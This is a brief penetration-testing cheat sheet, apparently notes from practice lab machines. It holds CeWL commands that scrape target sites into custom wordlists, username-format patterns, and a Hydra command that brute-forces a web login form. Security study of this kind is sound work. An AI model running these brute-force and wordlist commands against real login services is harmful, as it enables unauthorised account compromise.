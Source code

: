 # Password & Hash


## Generate Password List (CEWL)

```
cewl -d 5 -m 3 http://postfish.off/team.html -w /home/kali/Desktop/cewl.txt
```

## Generate Username Combinations like

```
firstlast
first.last
f.last
first.l
l.first
lfirst
first
last
```

https://github.com/m8sec/CrossLinked
https://github.com/soxoj/username-generation-guide

# Hydra
## http-post-form
```
hydra -I -f -L usernames.txt -P passwords.txt 'http-post-form://192.168.233.61:8081/service/rapture/session:username=^USER64^&password=^PASS64^:C=/:F=403'
```

# Create custom wordlist
```
cewl http://192.168.233.61:8081/ | grep -v CeWL > custom-wordlist.txt
cewl --lowercase http://192.168.233.61:8081/ | grep -v CeWL  >> custom-wordlist.txt
```


